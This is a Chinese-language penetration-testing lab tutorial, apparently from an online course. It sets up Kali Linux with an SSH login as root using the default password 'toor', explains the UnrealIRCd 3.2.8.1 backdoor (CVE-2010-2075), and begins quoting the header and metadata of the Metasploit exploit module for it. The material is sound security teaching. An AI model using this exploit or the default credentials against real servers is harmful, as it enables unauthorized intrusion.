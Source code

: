 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483505113969.png-wm)

使用 `ping` 命令可以知道 Kali Linux 是否已经完全启动成功，当宿主机 Ubuntn 和 Kali Linux 两台主机能够 ping 通的时候，说明 Kali 已经启动。此时输入命令使用 ssh 进行连接：

```
# 连接 Kali Linux，密码为 toor
ssh root@Kali
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483505661337.png-wm)


## 三、 渗透测试

### 3.1 渗透扫描

UnrealIrcd 是一个开源的 IRC 服务器，

Unreal Ircd 服务漏洞原理：

> Unreal Ircd 3.2.8.1 版本中，在 DEBUG3_DOLOG_SYSTEM 宏中包含外部引入的恶意代码，远程的攻击者能够利用这个潜在的木马执行任意代码。

漏洞索引及相关信息链接：

+ [CVE-2010-2075](http://www.cvedetails.com/cve/cve-2010-2075)
+ [OSVDB-65445](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor#)

漏洞攻击模块链接：

+ [unreal_ircd_3281_backdoor.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb)


漏洞攻击模块代码简介（见注释中）：

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

# 引入必要的模块 `msf/core`
require 'msf/core'

# 定义 Metasploit 模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'UnrealIRCD 3.2.8.1 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the
        Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
        Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2010-2075' ],
          [ 'OSVDB', '65445' ],
          [ 'URL', 'http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt' ]
        ],
```